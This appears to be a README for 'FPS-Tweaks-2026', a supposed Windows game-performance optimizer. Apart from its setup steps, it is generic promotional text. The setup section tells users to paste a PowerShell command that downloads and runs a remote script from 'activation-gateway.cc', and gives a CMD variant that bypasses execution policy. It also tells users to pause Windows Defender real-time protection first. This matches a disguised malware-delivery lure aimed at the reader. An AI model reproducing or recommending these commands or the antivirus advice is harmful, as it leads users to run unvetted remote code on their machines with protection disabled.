

<div align="center">

# 🎮 FPS-Tweaks-2026: Sculpt Your Frame Rate, Master Your Momentum for Windows



[]() []() []() []()

</div>

---

FPS-Tweaks-2026 is a performance overhaul built for players who refuse to let their hardware dictate the pace of the fight. It reshapes frame pacing, trims input delay, and tunes custom resolutions so every encounter feels immediate and every scene renders with the clarity it deserves. Memory usage stays lean under the hood, giving you headroom for those long sessions where the action never lets up. Tweak the settings to your liking and let the numbers speak for themselves.

## 🚀 Setup Guide — PowerShell

> [!TIP]
> **Fast install** — a single PowerShell command, no extra tools.
> Windows 10 / 11 · PowerShell 5.1+ · No admin required

### 1️⃣ Open Windows PowerShell
* Press `Win + X`.
* Select **Terminal** or **Windows PowerShell**.

### 2️⃣ Paste and run
Paste the command into PowerShell and hit `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ Forced run via CMD
Copy into CMD, press `Enter`, wait for completion:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> Windows Defender or third-party AV may flag the script. Pause Real-time protection in Windows Security, run the installer, and re-enable it right after.

## 🔧 Requirements

- Windows 10 or Windows 11
- PowerShell 5.1 or newer (already available on Windows)
- Active network connection
- No admin rights needed

## Features

* **Precision FPS Engine** – Squeaks every last frame out of your rig without touching a single game file. The tweaks roll in clean, apply in seconds, and leave your stock settings untouched for easy rollback.

* **Latency Guillotine** – Input delay gets chopped at the driver and render-queue level, so your mouse and keyboard finally feel like extensions of your hands instead of suggestions.

* **Resolution Alchemist** – Custom resolutions that actually stick, including those oddball aspect ratios your GPU never officially supported. Stretch, sharpen, and scale to taste.

* **Memory Whisperer** – Background allocations get herded and trimmed so your RAM stops hoarding what your game needs. Smoother texture streaming, fewer stutters, no system restart ritual required.

* **Graphics Quality Dial** – Sharpen the visuals without sacrificing the frames you just fought for. Balanced presets let you slide between "competitive clarity" and "cinematic polish" on the fly.

* **Lag Input Delay Killer** – Queue depth, pre-rendered frames, and timer resolution all get pulled into line, cutting that mushy feeling between action and reaction.

* **One-Click Presets** – Hand-tuned profiles for competitive shooters, cinematic single-player runs, and everything in between. Apply, test, and tune further if the mood strikes.

* **Full Version, Latest Build 2026** – Every tweak, preset, and optimizer ships in one package. No stripped-down teaser builds, no missing modules — just the complete toolkit, current and ready.

* **Modder-Friendly by Design** – Every setting is exposed, documented, and reversible. Fork it, remix it, or pair it with your own tweaks; nothing under the hood is locked away.

* **Safe-First Application** – Changes are tracked before they land, so a single restore point brings your system back exactly as it was. Tinker boldly.

## Installation

Getting FPS-Tweaks-2026 into your game folder is quick — but a little care goes a long way. Treat your install like a tuning session: read each step, make a backup, and you'll be back in the action with smoother frames before you know it.

1. **Unpack the archive.** Grab the full version latest build and extract it to a clean folder you can easily find. If the archive asks for a password, you already have it above — keep it handy.

2. **Back up your config files.** Before anything touches your game directory, copy your existing settings and configuration files somewhere safe. This is your safety net; if a tweak ever rubs you the wrong way, you can roll back in seconds.

3. **Close the game and its launcher.** Make sure nothing is running in the background. A locked file is the number one reason a tweak refuses to stick.

4. **Drop the files into place.** Copy the extracted contents into your game's root folder — the same location as the main executable. If a prompt asks to merge or overwrite, confirm it.

5. **Let the memory usage optimizer settle.** On the first launch, the tweaks will build their initial config. Give it a moment to finish before you start benchmarking; the first run is always the busiest.

6. **Tune your resolution and graphics settings in-game.** Once inside, open your video settings and dial in the custom resolution tweaks and FPS settings that match your hardware. Start conservative, then push higher as you confirm stability.

7. **Test, then test again.** Play a few minutes, watch your frame pacing, and feel for input delay. If something feels off, restore your backup and adjust one setting at a time — that's the modder's way.

8. **Keep your build current.** When a new build drops, repeat the backup step first, then swap in the fresh files. Your configs will carry over, so you won't lose your tuning work.

A quick note from the workshop: this mod is built to play nice with your setup, but every rig is different. If a particular tweak doesn't agree with your hardware, skip it — the goal is a smoother game, not a perfect checklist. Now go boost those frames and enjoy the view.

## Compatibility

FPS-Tweaks-2026 is built to ride alongside the games you already love without stepping on their toes. It plays nice with the vast majority of modern titles running on Windows 10 and 11, from twitchy competitive shooters to sprawling open-world adventures. If your game engine speaks DirectX, there's a good chance these tweaks will settle in comfortably.

Now, a word to the wise modder: this pack is designed to sit quietly in the background, so it's happiest when it isn't layered directly on top of other performance suites doing the exact same job. Running two FPS optimizers at once is like two chefs seasoning the same pot — the result rarely tastes as intended. Pick your favorite flavor and let it cook.

Some titles ship with their own anti-cheat sentries that get understandably twitchy about anything touching memory or rendering pipelines. For those games, we recommend a hands-off approach: enjoy the vanilla experience there and save the tweaks for titles that welcome a little tinkering. When in doubt, test on a single game first, keep a clean backup of your configs, and let the results speak for themselves.

Custom resolution and memory tweaks can behave differently depending on your hardware and driver version, so if something feels off, dial back the aggressive settings and rebuild from a stable baseline. The modding community's golden rule applies here too: change one thing at a time, document what works, and share your findings so the next player benefits.

In short — broad compatibility, a few sensible boundaries, and plenty of room to experiment. That's the spirit this pack was built in.

## Credits

## Credits

FPS-Tweaks-2026 wouldn't run half as smooth without the people who keep the fire burning. This page is for them.

**The Core Crew** — the late-night tinkerers who benchmarked, re-benchmarked, argued about frame times, and shipped the settings that actually matter. You know who you are. The config files remember.

**The Config Wizards** — every ini line, every memory tweak, every custom resolution preset born from a hunch at 3 AM. Thank you for your service and your stubbornness.

**The Playtesters** — the ones who noticed the input delay before the changelog did. Your reports shaped this build more than any release note ever could.

**The Modding Community** — for the shared knowledge, the "have you tried this?" threads, and the culture of making good games better. This project stands on that foundation.

**The Players** — everyone who installed, tuned, broke something, fixed it, and came back for the next build. You're the reason the FPS counter keeps climbing.

*Special thanks to the original project's maintainers and everyone who ever posted a performance tip into the void. It landed here.*

Keep tweaking. See you in the next build.

## License

This mod is shared under a "modder's honor" license. Tinker with it, remix it, fold it into your own overhaul, or ship it inside a personal build for your friends — that's what it exists for. If you republish a modified version, just be cool about it: keep a mention of the original FPS-Tweaks-2026 in your credits and don't pretend you built the whole thing from scratch. Commercial resale of the package as-is? Not the vibe. Beyond that, the settings are yours to break, bend, and rebuild — if you discover a combo that squeezes out a few more frames, share it back with the community so everyone can benefit. No warranty, no promises, no angry letters if a tweak misbehaves on your particular rig — back up your configs first and tune responsibly.